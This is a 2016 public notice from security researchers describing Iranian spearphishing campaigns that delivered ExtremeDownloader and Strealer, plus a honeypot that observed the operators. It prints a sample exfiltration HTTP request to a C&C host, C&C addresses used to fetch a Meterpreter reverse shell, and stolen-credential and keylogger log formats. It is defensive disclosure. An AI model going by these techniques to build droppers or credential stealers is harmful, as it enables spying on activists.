




Malware Posing as Human Rights Organizations and Commercial Software Targeting Iranians, Foreign Policy Institutions and Middle Eastern Countries (ExtremeDownloader and Strealer)
Public Notice (1 September 2016)
Background
Since the Technical Preview of our forthcoming Carnegie Endowment publication about state-sponsored espionage campaigns was released at Black Hat USA, we have continued to disclose information about current Iranian activities in order to promote public education and to provide indicators of compromise.
Within our Black Hat presentation, we identified but did not discuss a series of intrusion attempts conducted in July and August, targeting human rights organizations, bloggers and foreign policy institutions. The social engineering techniques and technical operations connected to these spearphishing attempts was moderately more refined than other incidents, and therefore warranted further scrutiny. On initial observation, we find a diverse set of tactics that have been used to compromise at least ninety uniquely identifiable malware victims within a limited window into the overall activities, with more intrusions through credential theft. These spearphishing campaigns are also notable since their targeting is more broad than Iranians activists, and have a demonstrable interest in targets in Saudi Arabia, Iraq and Palestine.
This public notice is intended to describe a series of intrusions conducted through a suite of custom and off-the-shelf malware agents targeting interests aligned with the Iranian security policies. We also provide some insight into the nature of the operators provided by their engagement in a honeypot under our control.
Incident and Impact
On August 4, 2016, the Gmail account of an unknown individual was compromised in order to conduct spearphishing campaigns against a diverse set of targets related to Iran. The spearphishing attempt posed as a message from the Director of United for Iran, a U.S.-based human rights organization, claiming that the organization had developed a secure communications tool for activists. The message was sent from an account created under her name on lesser known email provider (1&1’s Mail.com), a common tactic in recent months, with a link to a file hosted on Dropbox and an additional credential phishing attempt. Once the observed Gmail account was under their control, the actors then forwarded malware to over a hundred of their contacts, ranging from an address for the United Nations Refugee Agency in Turkey to a site contact for Reza Pahlavi, the son of the deposed Shah Mohammad Reza Pahlavi.
The incident represents only a more recent example of a common set of tactic and tools that have been used by a discrete set of actors in Iran. Over the summer, we have found similar spearphishing attempts posing an array of commonplace software, including Adobe Flash, TeamSpeak, Mozilla Firefox, and a video game services company (Multiplay). Still other cases have included documents with embedded malware. In all of these cases, the software is a primary stage dropper that provides reconnaissance and remote access for further intrusions.
Our initial observation of the dropper and the social engineering tactics came out a series of documents that were sent to European human rights advocates in July. These documents were similarly sent from an impersonation account for well-known organizations created on Mail.com, under the pretense of important news. The malware was embedded as an object in the document that would be activated when the target clicked on an icon, typically posing as an Excel file or an image, which the message would claim were lists of names or other items pertinent to the target.
In our August 24 public notice "Increased Use of Android Malware Targeting Journalists," we documented a set of remote access tools for the Android platform being used by Iranian actors to target dissidents and independent media outside of the country. Included in that report was one commonplace tool, DroidJack, which masqueraded as a secure communications tools. As recently as Sunday, August 28, this RAT was used once again to target journalists and the foreign policy establishment, when the Telegram of one prominent journalist was compromised – in this case, posing as an additional set of stickers for Telegram. In this case, the RAT appeared to provide the intruders a vector to access Telegram credentials for individuals outside of Iran, which is relevant to our description of other tactics used to breach users of the extremely popular service. The Android malware in the previous notice mirrored a sustained campaign that we had begun monitoring, including both agents impersonating TeamSpeak. Once again, in the case of the Telegram sticker incident, Android malware was sent alongside a custom Windows agent.
The concurrent targeting and inclusion of both the custom Windows malware and the DroidJack APKs on one fictitious download site leads us to believe that the same group is behind the attempts. These campaigns have occurred alongside Rocket Kitten infrastructure, but are conducted in a more professional manner with distinct tools, representing either a subgroup or a separate effort. The effort may also be connected to other known groups based on some indicators, so we do not attempt to attribute the actors at this point outside of their Iranian origin and alignment with state interests.

Based on records from multiple command and control servers, we find a distributed set of victims of the malware, primarily Iranians inside of the country, Iranians abroad, and institutions in the Arabic-speaking Middle East and North Africa. As we noted in our update on the Infy campaign in the Technical Preview, mapping victimology based purely on IP addresses can be especially hard when it comes to Iran, due to the widespread use of circumvention tools. However, we believe that the overall themes found within such analysis are correct. The victimology of the malware also aligns with observed patterns in the targeting of credential phishing and other social engineering activities by the group. In the interest of expediency, the victimology and full set of tactics is not in scope of this disclosure, and instead we will provide more details on the themes within our full publication.
Malware
As described previously, this actor makes use of a number of social engineering tricks. These tricks might vary in nature, but quite often they involve bundling legitimate software installers with a copy of one of their malware.
In the case of the TeamSpeak.EXE payload, once the bundle is executed it installs and launches the first stage of their malware toolset, normally located at %AppData%\Roaming\Microsoft\SpoonBuster\dwm.exe. We call this first stage sample ExtremeDownloader, due to a debug string that was left in the binary.
C:\Users\Not Found\Documents\Visual Studio 2013\Projects\ExtremeDownloader_alijavad_952\trunk\Downloader\Release\Downloader.pdb
The general purpose of ExtremeDownloader is to collect information on the infected system, send this information to a remote location, and wait for instructions to eventually download and execute further malicious software. All the exfiltrated information is then categorized by an identifier which is the combination of the computer name and the hard disk volume serial number.
The preconfigured parameters, such as Command & Control location and encryption key, are recognizable in the binary as base64 obfuscated strings.
This also includes a public 1024 RSA key:
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDPlwHiG068RYDD1NLvCFAWNMs6
VR4I2kNuTei/+rCnUuj92hDFFXrntXIi7LLn8XsB3ls1sJ0RcAcrKVzQgzY+DOOT
A4dhOpFlO3v/bj3OwRqCdNJwJJfpYCBYQaLND9eo49BCK+pwVVB55TJYjCkVowGx
ZfJJdjYc3oDZKbKOawIDAQAB
-----END PUBLIC KEY-----
In order to profile the system, ExtremeDownloader collects an extensive amount of details, including information on the hardware, the networking, the existing users, processes, and services. In doing so, the malware makes extensive use of WMI.
The aggregated profile is then posted to the C&C with an HTTP request like following:
POST /utility/update/post.php HTTP/1.1
Accept: */*
Content-Type: multipart/form-data; boundary=D514116929C24f35AE047F2B82C59B08
Content-Length: 49810
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.2)
Host: www.apache-utility.com
Cache-Control: no-cache
--D514116929C24f35AE047F2B82C59B08
Content-Disposition: form-data; name="EKY"
Ofin
--D514116929C24f35AE047F2B82C59B08
Content-Disposition: form-data; name="ID"
[COMPUTER_IDENTIFIER]
--D514116929C24f35AE047F2B82C59B08
Content-Disposition: form-data; name="Data"
The content of the “Data” section would be the computer profile in encrypted form, which would then be stored in a dedicated folder on the C&C with the file name SysInfo.txt.
At this point, we believe the attackers would selectively decide which infected computers to compromise further with the second stage malware. If instructed to do so, ExtremeDownloader would then download an executable normally named contask.exe. We refer to this particular payload as Moreoriz, because of a mutex it creates with name Global\Moreoriz, or simply Dropper, also due to a debug string found in the binary:
C:\Users\Not Found\Documents\Visual Studio 2013\Projects\TinyExe\Release\Dropper.pdb
This second stage dropper is limited in functionality, and it mostly used just to connect to a second Command & Control server located at 5.152.202.53 on port 4545, to download and execute a copy of Metasploit Meterpreter in order to grant a reverse shell to the attackers. In an effort to lure the attackers into interacting with us that we describe in the following section of this report, we managed to obtain one of the collection utilities they make use of. We refer to this malware as Strealer, also because of a debug string available in the binary (please note the typo):
C:\Users\AB)\Documents\Visual Studio 2013\Projects\Strealer\Stealer_Final\Release\Stealer.pdb
While the name of the project and functionality recalls the Stealer malware of Flying Kitten, there does not appear to be a relation between the agents as they don't appear to significantly share characteristics.
Once executed, Strealer first checks whether it is installed with persistence, and if not it copies itself to the location %AppData%\Local\Mozilla\Profiles\MozillaService.exe and instantiates a new process from there.
The purpose of Strealer is to steal credentials and cookies from web browsers. Its design is very simple, and yet effective. Strealer knows how to locate, decrypt, and read stored credentials and cookies from Internet Explorer, Firefox, Chrome, and Opera. These stolen credentials are then normally stored in a JSON-like format in the %AppData%\Local\Mozilla\Profiles\Log under the names for example like chromeLogins.sql and chromeCookies.sql.
In the case of credentials, the log format would be:
{\"Username\":\"%s\",\"Password\":\"%s\",\"url\":\"%s\"}
While the following format is used for logging stolen cookies:
{\"id\":\"%S\",\"host\":\"%S\",\"name\":\"%S\",\"value\":\"%S\",\"path\":\"%S\",\"expiry\":\"%S\",\"isHttpOnly\":\"%S\",
\"isSecure\":\"%S\",\"hostOnly\":\"%S\",\"session\":\"%S\",\"storeId\":\"%S\"}
Additionally, the malware is also provided with a generic keylogger and clipboard stealer, which are simply implemented with the traditional GetClipboardData and GetKeyboardState/GetKeyState techniques. The intercepted keystrokes and clipboard are then nicely logged in detail in a dedicated file normally located at %AppData%\Local\Mozilla\Profiles\Log\kgservice.sql. Following is an indicative content of how the keylogger log file would look like:
[Chrome - Google Chrome]
date: 2016/8/31 time: 17:28:53
[Ctrl]
[Chrome - Google Chrome]
date: 2016/8/31 time: 17:28:53
google.com[Enter]
[New Tab - Google Chrome]
date: 2016/8/31 time: 17:28:55
[Ctrl]
[Untitled - Google Chrome]
date: 2016/8/31 time: 17:28:55
password[Ctrl]
********Start Clipboard*******
password
********END Clipboard*******
These logs are then collected and posted to yet another Command & Control server located at update-finder.com. The structure utilized in the HTTP exfiltration protocol, is very much similar to the ones adopted by ExtremeDownloader.
Operators
When realizing that in the chain of compromise the attackers would manually interact with infected computers through the use of a Meterpreter shell, we decided to set up a “honeypot.” We created a somewhat realistic virtualized workstation which would appear belonging to a person engaged in researching on human rights abuses in Iran. We downloaded publicly available reports, created a realistic folder structure, and installed various commodity software that a regular person would use. Then we infected the “honeypot” workstation with the Dropper, let it report back to its Command & Control and waited for activity.
Approximately one hour later we observed activity on the system. The attackers connected through their Metasploit reverse shell, installed a copy of TightVNC, installed a copy of their Strealer backdoor and started exfiltrating data from our honeypot, while we pretended to unsuspectingly keep on working on document drafts and reading reports from various human rights organizations, and chatting to some fictitious third person about some upcoming campaign.
When we noticed that some of the reports and documents we had downloaded from the Internet and placed in the workstation were being exfiltrated by the attackers, we swiftly created some documents with the CanaryTokens service that had credible and interesting file names pertinent to human rights issues in Iran, and placed them among other original files. CanaryTokens embeds remote resources as triggers inside commonplace document, for example Office files, to notify whenever they are opened and identify from which IP address. Surely enough, the attackers exfiltrated the baits, and opened them, resulting in alerts being delivered to us.
The IP address from which the bait documents were opened appeared to be a VPN endpoint. We then attempted creating similar bait documents with different file formats, in order to see whether that would trigger a different behavior. Interestingly, this led to the attackers exfiltrating and opening these newer documents too, possibly from a different location, exposing what we believe to be their actual originating IP address.
This suggests the attackers are in fact of Iranian origin, and might be located in the city of Karaj, not far from the capital Tehran.
Contact
Certain information has been withheld for privacy or operational reasons outlined above, but we are happy to provide information to security professionals and targeted organizations in order to support defensive work. We also welcome samples and feedback on our research. If you have any questions, concerns, or requests for further information please contact us.
Claudio (nex@amnesty.org)
- Fingerprint: E063 75E6 B9E2 6745 656C 63DE 8F28 F25B AAA3 9B12
Collin (cda@asc.upenn.edu)
- PGP Key: https://cda.io/key.asc
- Fingerprint: 510E 8BFC A60E 84B4 40EA 0F32 FAFB F2FA
Indicators of Compromise
Machine Readable Format
https://github.com/iranthreats/iocsTable
Payloads
ExtremeDownloader
Dropper / Moreoriz
Strealer
MozillaService.exe